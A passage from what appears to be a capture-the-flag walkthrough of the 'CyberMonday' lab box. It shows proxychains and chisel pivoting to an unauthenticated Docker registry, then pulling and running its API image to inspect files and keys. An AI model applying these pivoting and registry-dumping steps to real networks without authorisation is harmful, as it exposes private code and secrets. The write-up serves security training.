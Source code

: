 There's a `registry` one, which is a hint towards enumerating a Docker registry instance:

```
$ proxychains -q curl 172.18.0.6:5000/v2/_catalog
{"repositories":["cybermonday_api"]}
```

We can change the `chisel` port forwarding commands to port foward `172.18.0.6:5000` and then use `docker pull` to download the image:

```
$ sudo docker pull 127.0.0.1:5000/cybermonday_api                
Using default tag: latest
latest: Pulling from cybermonday_api
5b5fe70539cd: Pull complete 
affe9439d2a2: Pull complete 
1684de57270e: Pull complete 
dc968f4da64f: Pull complete 
57fbc4474c06: Pull complete 
9f5fbfd5edfc: Pull complete 
5c3b6a1cbf54: Pull complete 
4756652e14e0: Pull complete 
57cdb531a15a: Pull complete 
1696d1b2f2c3: Pull complete 
ca62759c06e1: Pull complete 
ced3ae14b696: Pull complete 
beefd953abbc: Pull complete 
Digest: sha256:72cf91d5233fc1bedc60ce510cd8166ce0b17bd1e9870bbc266bf31aca92ee5d
Status: Downloaded newer image for 127.0.0.1:5000/cybermonday_api:latest
127.0.0.1:5000/cybermonday_api:latest
```

Afterwards, we can run the image:

```
$ sudo docker run -it 127.0.0.1:5000/cybermonday_api bash
root@a47a599326a1:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```

Within this image, we can see some new files:

```
root@a47a599326a1:/var/www/html# ls -la
total 64
drwxrwxrwt 1 www-data www-data  4096 Jul  3 05:00 .
drwxr-xr-x 1 root     root      4096 Jun 14 04:37 ..
-rw-r--r-- 1 www-data www-data    10 May 29 01:46 .dockerignore
drwxr-xr-x 1 www-data www-data  4096 May 28 17:36 app
-rw-r--r-- 1 www-data www-data    56 May  8 16:25 bootstrap.php
-rw-r--r-- 1 www-data www-data   328 May 28 23:20 composer.json
-rw-r--r-- 1 www-data www-data 21602 May 28 23:20 composer.lock
-rw-r--r-- 1 www-data www-data   153 Jun 30 15:26 config.php
drwxr-xr-x 1 www-data www-data  4096 May 28 23:51 keys
drwxr-xr-x 1 www-data www-data  4096 May 29 02:03 public
drwxr-xr-x 1 www-data www-data  4096 May 28 23:20 vendor
```
